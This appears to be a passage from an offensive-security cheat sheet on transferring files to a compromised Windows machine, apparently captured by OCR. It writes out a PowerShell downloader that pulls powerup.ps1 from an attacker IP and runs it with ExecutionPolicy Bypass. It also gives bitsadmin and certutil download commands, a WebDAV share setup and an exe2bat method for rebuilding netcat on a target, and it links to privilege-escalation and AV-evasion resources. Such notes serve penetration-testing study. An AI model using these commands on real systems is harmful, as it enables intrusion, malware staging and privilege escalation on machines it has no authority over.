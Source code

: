 echo $storageDir = $pwd \&gt; wget.ps1

echo $webclient = New-Object System.Net.WebClient \&gt;\&gt;wget.ps1

echo $url = &quot;http://10.11.0.102/powerup.ps1&quot; \&gt;\&gt;wget.ps1

echo $file = &quot;powerup.ps1&quot; \&gt;\&gt;wget.ps1

echo $webclient.DownloadFile($url,$file) \&gt;\&gt;wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

### **Webdav**

On kali linux install wsgidav and cheroot

pip install wsgidav cheroot

Start the wsgidav on a restricted folder:

mkdir /tmp/webdav\_folder

wsgidav --host=0.0.0.0 --port=80 --root=/tmp/webdav\_folder

On Windows mount this folder using net use:

net use \* http://YOUR\_IP\_ADDRESS/

Reference: [https://github.com/mar10/wsgidav](https://github.com/mar10/wsgidav)

### **BitsAdmin**

bitsadmin /transfer n http://domain/file c:%homepath%file

### **debug.exe**

First use upx or similar to compress the executable:

upx -9 nc.exe

Then use exe2bat to convert the executable into a series of echo commands that are meant to be copied pasted in the remote system:

wine exe2bat.exe nc.exe nc.txt

Then copy paste each command from nc.txt in the remote system. The commands will gradually rebuild the executable in the target machine.

### **certuril**

certutil.exe -URL

will fetch ANY file and download it here:

C:\Users\subTee\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content

## **Resources**

[https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py](https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py)
[http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)
[http://www.greyhathacker.net/?p=738](http://www.greyhathacker.net/?p=738)
[https://toshellandback.com/2015/11/24/ms-priv-esc/](https://toshellandback.com/2015/11/24/ms-priv-esc/)
[https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)
[https://www.toshellandback.com/2015/08/30/gpp/](https://www.toshellandback.com/2015/08/30/gpp/)
[https://www.toshellandback.com/2015/09/30/anti-virus/](https://www.toshellandback.com/2015/09/30/anti-virus/)
[https://www.veil-framework.com/framework/veil-evasion/](https://www.veil-framework.com/framework/veil-evasion/)